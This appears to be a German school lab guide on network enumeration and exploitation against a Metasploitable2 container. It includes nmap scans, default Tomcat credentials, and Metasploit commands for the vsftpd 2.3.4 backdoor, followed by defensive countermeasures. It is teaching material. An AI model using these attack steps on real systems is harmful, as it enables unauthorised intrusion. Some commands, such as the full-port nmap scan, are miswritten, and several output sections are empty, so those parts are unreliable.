

# Enumeration + Fingerprinting
---

## Umgebung bereitstellen

Zu erst lädst du dir das Docker Compose file herunter unter: https://gitlab.com/ch-tbz-it/Stud/m182/m182/-/blob/KES/lab/compose.yaml

1. Im ziel-Ordner dan ablegen und in Powershell ausführen:

```bash
docker compose up 
```
dieser Schritt dauert einige Minuten. 

2. Verbinde dich nun mit dem Kali Container:7

```bash
docker exec -it kali /bin/bash
```

3. Lade dir nun die Grundlegende Tools herunter um Pentesting betreiben zu können:

```bash
apt update
apt install net-tools
apt install nmap
apt install metasploit-framework
```
Dieser Schritt dauert einige Minuten.

--- 

## Informationen und Realisirung

Jetzt hast dz erfolgreich ein Test-Lab aufgebaut. Nun können wir Systemprüfungen durführen um 
Schwachstellen zu identifizieren und zu finden.



### 1 Vorgehen 

Angriffssystem bereitstellen (Kali-Linux + Metasploitable-VM)
Strategie bestimmen

Code of Conduct beachten (Vorabklärung, Information, Freigabebewilligung)
Durchführung des Vulnerability Scans
Recherche zu zwei möglichen Exploits, Durchführung eines Exploits, Dokumentation

---

### 1.1Ausgangslage

Vor einem Angriff müssen möglichst viele Informationen im Netzwerk gesammelt werden.
Aufbau einer Lab-Umgebung mit:

Kali-VM:
Metasploitable-VM:


#### Wichtige Schritte:

Kali-Linux / Metasploitable2 herunterladen und konfigurieren.
IP-Adresse im Lab-Netzwerk konfigurieren.
Vorgehen dokumentieren (Screenshots, Erklärungen, Resultate).

#### Abgabe:

Dokument: M182-Nachname_Enum+Fing.pdf (max. 5 Seiten, klare Struktur).
Via Teams gemäss Angaben der Lehrperson.


### 1.2 Ablauf
In diesem Projekt geht es erst mal darum, eine Schwachstellenbewertung in einem ausgewählten Netzwerk vorzunehmen. Beim ersten Versuch wollen wir erste Erfahrungen mit dem Enumeration-Prozess sammeln. Wir checken die Geräte, die im Netzwerk vorzufinden sind (sollte in der Lab-Umgebung nur das Kali-Linux und die Metasploitable-VM sein - oder finden Sie mehr?). Den Enumeration-Prozess sollten Sie auf der Kali-Linux-Instanz starten. Damit der Enumeration-Prozess etwas spannender wird, können Sie auch weitere VMs in Ihr Lab-Netzwerk einhängen.
In der zweiten Phase Recherchieren Sie aufgrund dieser Erkenntnisse zwei Exploits, die für die entdeckten Schwachstellen infrage kommen. Entscheiden Sie sich für einen und führen Sie diesen in der dritten Phase durch. Zum Abschluss machen Sie sich Gedanken, welche Massnahmen auf der Gegenseite nötig gewesen wären, um einen solchen Angriff abzuwehren (Resilienzanalyse).

### 1.3 Begriffserklärung
In der Mathematik und auch in der Informatik wird «Enumeration» als Auflistung einer Reihe von Elementen in einer Menge bezeichnet. Bei der Aufzählung im Hacking-Kontext werden Benutzernamen, Freigaben, Dienste, Webverzeichnisse, Gruppen und Computer in einem Netzwerk abgerufen. Dies wird auch als Netzwerkaufzählung bezeichnet. Während dieses Prozesses sammeln wir, wenn möglich, auch andere nützliche netzwerkbezogene Informationen. Je mehr Informationen in dieser Phase gesammelt werden können, desto einfacher wird das spätere eindringen ins System bei der Durchführung des Penetrationstests sein.
Ein wichtiger Teil des Enumerationsprozesses ist das Scannen von Ports und das «Fingerprinting» (Fingerabdrücke sammeln). Port-Scanning wird verwendet, um einen Server oder Host auf offene TCP- und UDP-Ports zu untersuchen.
Beim Fingerabdruck werden die mit diesen Ports verbundenen Dienste identifiziert. Ein sehr beliebtes Tool zum Auflisten von Netzwerken, Scannen von Ports und zum Ablesen von Fingerabdrücken ist NMAP (Network Mapper), welches wir in diesem Auftrag auch verwenden werden. Es könnte auch ein Aufzählungstool namens «enum4linux» verwendet werden.
Enum4linux ist ein Tool zum Auflisten von Informationen von Windows- und Samba-Hosts.
Nachdem der «Enumeration-Process» des Lab-Netzwerks erfolgreich abgeschlossen wurde, werden wir eine Schwachstellenbewertung (Vulnerability Assessment) an diesem System durchzuführen. Mit Informationen aus dem Enumeration-Process, z. B. der Betriebssystemversion, offenen Ports und dahinterliegenden Diensten (wenn möglich mit Version), werden wir nach bekannten Schwachstellen dieser Dienste suchen. Zu diesem Zweck verwenden wir dann die Open Source Vulnerability Database (OSVDB) und die Common Vulnerabilities and Exposures (CVE).
Der letzte Schritt besteht darin, den Zielhost mit einem Schwachstellenscanner namens OpenVAS unter Kali Linux auf diese Schwachstellen zu scannen.

---

## 2.0 Enumeration und Port Scanning

### 2.1 Netzwerkscan mit netdiscover

Dieser Befehl gibt alle Live Hosts um angegebenen IP-Bereich zurrück.

```bash
netdiscover -r 172.18.0.0/24
```


### 2.2 Port Scan mit nmap


Wenn wir einen SYN-Scan mit NMAP starten, ohne den Port-Bereich anzugeben, durchsucht NMAP nur die ersten 1000 Ports, die als die wichtigsten Ports angesehen werden, anstatt aller 65.535 Ports.
Um alle Ports zu scannen, muss das -p- Flag verwendet werden. Der SYN-Scan-Befehl von Nmap verwendet das Flag -sS, das im folgenden Befehl zum SYN-Scannen von Port 1 bis Port 65.535 verwendet wird.

```bash
nmap -sS -p 172.18.0.3/24
```


### Sind offene Ports anfällig?

Nur weil ein Port offen ist, bedeutet dies nicht, dass die damit verbundene Software anfällig ist. Wir müssen die Version des Betriebssystems und die Dienste hinter den offenen Ports kennen. Anhand dieser Informationen können wir feststellen, ob bekannte Schwachstellen zur Ausnutzung bekannt und verfügbar sind. Das Ergebnis des Dienst- und Betriebssystem-Scans gibt uns die entsprechenden Informationen, um diese Schwachstellenbewertung erfolgreich durchzuführen. Um diese Informationen zu erhalten, führen wir den Port-Scan mit der Option -sV für die Versionserkennung und der Option -O für die Betriebssystemerkennung aus, um die Versionen der ausgeführten Dienste und des Betriebssystems abzurufen. Der Scan des map Betriebssystems und der Version führt dann einen vollständigen TCP-Handshake aus und verwendet Techniken wie z.B. das Aufrufen von Bannern, um Informationen von den verfügbaren Diensten abzurufen.

---
## 2.3 Nmap Service und OS-Scan

Verwenden Sie den folgenden Befehl, um den Nmap-Port-Scan mit Dienst- und Betriebssystemerkennung zu starten:`

```bash
nmap -sS -sV -O 172.18.0.3
```
output:


## 2.4 NMAP UDP-Portscan
Bisher haben wir nur nach offenen TCP-Ports gesucht. Dies ist die Standardeinstellung für Nmap. Nach offenen UDP-Ports haben wir noch keine Ausschau gehalten.

Mit folgendem Befehl kann ein UDP-Scan gestartet werden.

```bash
nmap -sU 172.18.0.3
```
Dieser Befehl dauert einige Minuten.

output:


Man kann auch das Flag -p verwenden, um die zu durchsuchenden Ports zu definieren. Der UDP-Scan dauert etwas länger als ein TCP-Scan. NMAP gibt beim Angriff auch ein vulnerables System z.B. die folgenden Informationen zu den gefundenen offenen UDP-Ports zurück:

PORT | STATE | SERVICE
--|--|--
53/udp | open | domain
111/udp |  open  | rpcbind
137/udp | open | netbios-ns
2049/udp | open | nf

Beachten Sie, dass UDP-Scans viele Fehlalarme verursachen können. Die Fehlalarme können auftreten, weil UDP ein Äquivalent eines TCP-SYN-Pakets fehlt. Wenn ein gescannter UDP-Port geschlossen wird, antwortet das System mit einer Meldung, dass der ICMP-Port nicht erreichbar ist. Das Fehlen eines solchen Pakets weist darauf hin, dass der UDP-Port für viele Scan-Tools offen ist. Wenn auf dem Zielhost eine Firewall vorhanden ist, die die ICMP-Nachricht "Nicht erreichbar" blockiert, scheinen alle UDP-Ports offen zu sein. Wenn die Firewall einen einzelnen Port blockiert, meldet der Scanner fälschlicherweise, dass der Port offen ist.

Natürlich wissen wir, dass das vorbereitete «Metasploitable 2»-System absichtlich anfällig ist. Man kann daher nur vermuten, dass die meisten, wenn nicht alle Dienste Schwachstellen, Hintertüren usw. 
enthalten. 

## 2.5 Recherche und Durchführung eines Exploits

Nachdem Sie nun diverse Schwachstellen im Netzwerk gefunden haben, wollen sie herausfinden, welche Exploits mit diesen gewonnenen Erkenntnissen erfolgreich umgesetzt werden können. Recherchieren Sie im Internet und sammeln Sie Informationen. Das Ziel ist es, in ihr ausgewähltes Zielsystem einzudringen. Viele Wege führen nach Rom.

    Entscheiden Sie sich für zwei Angriffsvarianten
    Recherchieren und finden Sie angemessene Quellen / Ressourcen, um einen Angriff entsprechend durchzuführen (Quellen müssen in der Doku angegeben werden)
    Wählen Sie einen der beiden Exploits aus und führen Sie diesen durch, dokumentieren Sie
    Definieren Sie drei Massnahmen, welche von der Gegenseite unterlassen wurden, um den Angriff zu vermeiden/erschweren (die Resilienz des Systems entsprechend zu erhöhen)

Experimentieren sie selbst ein wenig: https://docs.rapid7.com/metasploit/metasploitable-2-exploitability-guide

### 2.5.1 

Auf schlecht gesicherten Systemen ist er oft mit Standard-Logins wie tomcat:tomcat oder schwachen Passwörtern erreichbar. Ein Angreifer kann zunächst mit Bruteforce-Angriffen oder durch das Testen von Default-Credentials Zugang erlangen. Nach erfolgreicher Authentifizierung kann über das Manager-Interface eine bösartige WAR-Datei hochgeladen werden. Diese wird vom Tomcat-Server ausgeführt und öffnet dem Angreifer eine Remote-Shell, wodurch vollständiger Zugriff auf das Zielsystem möglich wird.

- Service: Apache Tomcat 6/7 (läuft auf Metasploitable2 auf Port 8180)

- Schwachstelle: Default-Credentials (tomcat:tomcat, admin:admin) oder schwache Passwörter → Zugriff auf das Tomcat Manager Interface.

- Exploit: (exploit/multi/http/tomcat_mgr_upload) Kann eine WAR-Datei hochgeladen und eine Remote-Shell geöffnet werden.

Quelle: Metasploit Module Doku – Tomcat Manager
### 2.5.2 vsftpd Backdoor Exploit

- Service: vsftpd 2.3.4 (läuft standardmäßig auf Metasploitable2 auf Port 21)

- Schwachstelle: Enthält eine absichtlich eingebaute Backdoor. Wenn man sich mit dem Benutzernamen :) einloggt, öffnet sich ein Shell-Zugang.

quelle:https://docs.rapid7.com/metasploit/metasploitable-2-exploitability-guide#vsftpd

## 3 Angriff

Eckdaten:
- vsftpd 2.3.4 Backdoor

- Service: FTP, Port 21

- Exploit: exploit/unix/ftp/vsftpd_234_backdoor

### 3.1 Durchführung des Angriffs
zuerst Metasploit starten:

```bash
msfconsole
```

Wenn du das getan hast, kannst du nun den Exploit starten:

```bash
use exploit/unix/ftp/vsftpd_234_backdoor
set RHOSTS 172.18.0.3
run
```

Output:


Nachdem der Exploit abgeschlossen ist, wir die neue Session automatisch geöffnet und du kannst mit linux folgenden befehl eigeben:

```bash

whoami
```


### 3.2 Gegenmassnahmen

#### Nr.1 Systemhardening & Patching

- Regelmässige Updates: Betriebsystem und Dineste aktuell halten. Automatische Security Patches aktivieren.

- Abschalten unsicheren Programme: Wenn Programme nicht genutzt werden sind es sicherheitslücken die einfach zu schließen sind.

- Least Privilege: Nur nötige Benutzer und Gruppen verwenden.

#### Nr.2 Service Reduction

- Unnötige Dienste deaktivieren: Dienstprogramme die umbedingt gebraucht werden anbehalten, der rest kann deaktiviert werden.

- Attack Surface Reduction: Umso weniger offene Ports und Laufende Dienste, desto kleiner ist die Angriffsfläche.

#### Nr.3 Netzwerksegmentierung & Firewall


- Netzwerkzonen: Trenne Test und Live-Systeme. DMZ, Intern und Extern sollten getrennt werden. 

- Firewall: Nur notwenige Ports offen halten, den rest deaktivieren.